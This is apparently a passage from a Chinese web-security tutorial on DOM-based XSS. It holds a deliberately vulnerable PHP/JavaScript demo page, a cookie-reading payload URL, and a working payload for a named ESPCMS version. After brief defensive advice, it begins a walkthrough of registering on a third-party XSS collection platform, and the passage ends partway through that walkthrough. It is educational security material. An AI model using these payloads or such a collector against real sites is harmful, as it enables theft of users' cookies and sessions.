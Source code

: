 ```php
<?php
error_reporting(0); //禁用错误报告
$q = $_GET["q"];
?>
<form action="" method="get">
    <input type="text" name="q" id='text' value="<?php echo $q;?>" />
    <input type="submit" value="test"/>
</form>
<div id="print"></div>
<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value + ' not found'; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

`http://127.0.0.1/domxss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用和反射型xss类似

### 实例

以ESPCMS P8.18101601n 前台XSS为例，问题主要由于错误页面的报错信息未作过滤，造成XSS漏洞。

payload:`http://127.0.0.1/espcms/index.php?ac=%3C/code%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&at=List&tid=7`

### 防范

- 特殊字符HTML实体编码
- 标签黑白名单(推荐白名单,黑名单可能存在不可预测的绕过)
- 请求头设置HttpOnly属性(cookie不能通过js调用获取)

### XSS 平台使用简要教程

#### 找一个xss接收平台，并完成注册等一系列操作

这里以 <https://xsshs.cn/> 做例子

![12BSxg.png](https://s2.ax1x.com/2020/02/07/12BSxg.png)

登陆平台

#### 创建和配置项目

![12B9MQ.png](https://s2.ax1x.com/2020/02/07/12B9MQ.png)

![12BCrj.png](https://s2.ax1x.com/2020/02/07/12BCrj.png)

填写好项目名称和描述（自定义）

然后进行配置：

![120Oat.png](https://s2.ax1x.com/2020/02/07/120Oat.png)
